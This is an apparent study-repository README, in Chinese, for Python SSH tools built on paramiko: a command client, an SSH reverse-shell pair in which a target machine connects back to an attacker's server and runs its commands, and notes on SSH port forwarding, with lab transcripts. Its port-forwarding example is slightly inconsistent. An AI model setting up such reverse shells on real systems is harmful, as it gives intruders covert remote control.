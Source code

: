# SSH通信
`pip install paramiko`

`paramiko`基于`pycrypto`开发的第三方库


# ssh_cmd.py ssh命令执行client
## 流程
- `paramiko`编写SSH client
- 连接SSH，执行命令

## Example:
```
Username:ssff
Password: 
Entry server ip:192.168.199.129
Enter port:22
Entry command:whoami
----OUTPUT----
root
```

# ssh 类反弹shell程序
## 攻击机
`ssh_server.py`启动ssh服务，等待靶机连接，向靶机发送命令执行
### Example:
```
┌──(root💀ssff)-[~/python_hacker_study/python_ssh]
└─# python3 ssh_server.py 
[+] Listening for connection ...
[+] Authenticated!
b'ClientConnected'
Enter command:ls
README.md
ssh_cmd.py
ssh_rcmd.py
ssh_server.py
test_rsa.key

Enter command:

```

## 靶机
`ssh_rcmd.py`连接攻击机ssh服务，接收攻击机命令
### Example:
```
(venv) python_ssh ➤ python3 ssh_rcmd.py                                                                       git:main*
Username:ssr
Password:
Entry server ip:192.168.199.129
Enter port:2222
Welcome to ssh
```
## KEY
`test_rsa.key` 官方github的示例文件

# SSH隧道命令使用
**机器A**

执行`ssh -L 8081:192.168.199.1:8080 ssr@192.168.199.129`

**机器B**

ssh转发机器

`ip: 192.168.199.129`


**机器C**

`ip: 192.168.199.1`
在本机`0.0.0.0:8080`启web服务


## 说明
机器A将机器B的8080端口映射到了本地的8081端口，当机器A访问本地的8081端口时，实际上是以机器C的身份，对机器B的8080端口进行访问。

## Example:
```
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
192.168.199.129 - - [08/Aug/2022 11:18:15] "GET / HTTP/1.1" 200 -
192.168.199.129 - - [08/Aug/2022 11:18:25] "GET / HTTP/1.1" 200 -

```



> 参考 https://github.com/paramiko/paramiko/blob/main/demos/